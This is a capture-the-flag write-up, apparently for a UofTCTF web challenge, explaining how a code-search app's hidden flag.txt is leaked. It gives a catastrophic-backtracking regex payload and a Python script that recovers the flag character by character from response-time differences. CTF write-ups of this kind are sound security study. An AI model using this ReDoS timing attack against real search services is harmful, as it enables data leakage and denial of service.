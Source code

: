 This challenge allows us to search for words or expressions from a list of files containing programs written in different programming langauages.

![image](https://github.com/user-attachments/assets/bc95cbf1-776b-4cb2-8bc8-5b9d74457971)


On viewing the code_samples folder within the source code, we can see that there is a file `flag.txt`.


On viewing the source code, we can see that the visibility of flag.txt file is set to false.
```JS
function initializeFiles() {
  const files = fs.readdirSync(CODE_SAMPLES_DIR);
  files.forEach(file => {
    filesIndex[file] = {
      visible: file !== 'flag.txt',
      path: path.join(CODE_SAMPLES_DIR, file),
      name: file,
      language: LANG_MAP[path.extname(file)] || null
    };
  });
  console.log(chalk.green('Initialized file index.'));
}
```
But the file is still added to the list of files which are traversed. 
Which means that we won't be able to find the contents within this file but the system still goes through `flag.txt` everytime a search is made for the contents within it.

Further, we also can observe that, only a file which is set to be visible can be accessed.
```JS
app.get('/view/:fileName', (req, res) => {
  const fileName = req.params.fileName;
  const fileData = filesIndex[fileName];

  if (!fileData?.visible) {
    return res.status(404).send('File not found or inaccessible.');
  }
```

The idea for the solution is to use regex to identify the flag. Suppose our guess for the characters within the flag is correct, then there should be an extra delay in the response to indicate that the flag is correct.

https://regex101.com/ was used to assist in making of the regex.
The regex was made such that, in case the guess is correct, then there is no delay and otherwise there is a delay.

payload - 
` ^guess|^(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)~$ `
![image](https://github.com/user-attachments/assets/3ee6bddb-23c8-4057-bc89-d74c33bc3af8)

![image](https://github.com/user-attachments/assets/a36c929a-115a-45c1-bc06-2c520dba1668)
As observed, it shows *catastrophic backtracking* when the guess is incorrect and it loads quickly otherwise.

Hence, a python script is written based on this, such that we guess the next character using the delays. The python script assists to change the characters and check the delay.

However, while testing the query, we can observe - 
```
>>> r = requests.post(url, json={"query":"/^a|^(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)~$/","language":"All"})
>>> r.elapsed
datetime.timedelta(seconds=1, microseconds=11727)
>>> r = requests.post(url, json={"query":"/^u|^(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)~$/","language":"All"})
>>> r.elapsed
datetime.timedelta(seconds=1, microseconds=12811)

```
that the time required is almost the same whether the guess is correct or wrong.
This is because there are many files other than flag.txt which can match regex for the second part while not matching for the first so there will be the same delay regardless of our guess being right.

Hence we need to modify our payload to - 
` ^uoftctf{guess}|^uoft(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)~$ `
since ``uoft`` would not get any match out of the flag.txt file so the catastrophic backtracking won't happen unless the search is done within the flag.txt file.

Hence the final script made to solve the challenge -
```python
import requests

url = "http://localhost/search"
flag = ""

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_{}"
while True:
  for ch in charset:
    r = requests.post(url, json={"query":"/^uoftctf\{" + flag + ch + "|^uoft(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)~$/","language":"All"})
    if(r.elapsed.total_seconds() < 0.8):
      flag += ch
      print(flag)
      if(ch == '}'):
        exit()
      break

```
[this challenge was solved after the ctf ended]






